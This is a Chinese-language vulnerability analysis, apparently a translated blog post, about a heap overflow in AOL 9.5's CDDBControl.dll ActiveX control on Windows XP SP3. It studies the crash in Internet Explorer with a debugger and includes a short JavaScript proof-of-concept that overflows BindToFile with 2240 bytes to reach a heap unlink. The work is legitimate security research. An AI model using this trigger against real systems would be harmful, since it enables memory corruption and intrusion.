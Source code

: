 ### 对AOL 9.5 (CDDBControl.dll) ActiveX堆溢出的分析：

我决定看一下这个漏洞并且判断其在windows xp sp3下的可利用程度。尽管control被标记为脚本或初始化不安全，我觉得漏洞分析起来还是很有意思的。我本来不想添加这一小节，但是[sinn3r](http://twitter.com/)问到了，所以我决定加进去 ：）现在由于它在ActiveX控制下，一种触发的方式为通过使用一种可选的脚本语言在IE浏览器触发。我决定使用JavaScript因为其可延展性并且heapLib.js被含在里面。我使用的环境如下所示：

```
1.  IE 6/7 
2.  XP SP3 
3.  heapLib.js 

```

所以让欢乐开始吧！首先我触发了[exploit-db](http://www.exploit-db.com/exploits/11190/)上的Hellcode Research写的PoC。让我们来分析程序的crash

![](http://drops.javaweb.org/uploads/images/e400c552dbccb9b90a0c464693ba7e9940a972b0.jpg)

我们在这里可以看到当前堆的segment实际上用光了未分配内存并且无法为那个堆segment提供更多的内存。

![](http://drops.javaweb.org/uploads/images/24c2bbd70889a6df27e04640819e5ce4b117ec22.jpg)

然后我们来看一下：

![](http://drops.javaweb.org/uploads/images/3efc19aed347bfd23e5034fdef880e4dabcac811.jpg)

![](http://drops.javaweb.org/uploads/images/3d05f229a3ba9641738f262e2d8db28e4e05b9dd.jpg)

我们用光了堆segment并且没有能力创建一个新的segment。所以我们该怎么办？好吧我们知道我们必须触发一个unlink操作。为了那样做，我们需要windows堆管理器复制所有的数据进入分配的buffer（覆写其它的chunk）但是不丢失当前的segment。那么当下一此分配或者free被触发，它会试着去unlink。我修改了poc去只用2240字节代替4000字节来触发溢出

```
var x = unescape("%41"); 
while (x.length<2240) x += x; 
x = x.substring(0,2240); 
target.BindToFile(x,1); 

```

现在当我们触发这一漏洞时，我们实际上并没有让浏览器崩溃。当然chunk已经溢出了，但是直到再有一个其他的unlink操作 它不会崩溃。但是当关闭浏览器时，垃圾搜集器启动并且分配所有已经free的chunk并且如是多个对RtlAllocateHeap()的调用 然后漏洞被触发。这次事情看上去更实际了。

![](http://drops.javaweb.org/uploads/images/de00dd2eb4076314b088884ff431a74c42fa6076.jpg)

```
(384c.16e0): Access violation - code c0000005 (first chance)
First chance exceptions are reported before any exception handling.
This exception may be expected and handled.
eax=41414141 ebx=02270000 ecx=02273f28 edx=02270178 esi=02273f20 edi=41414141
eip=7c9111de esp=0013e544 ebp=0013e764 iopl=0         nv up ei pl nz na po nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00010202
ntdll!RtlAllocateHeap+0x567:
7c9111de 8b10            mov     edx,dword ptr [eax]  ds:0023:41414141=????????

```
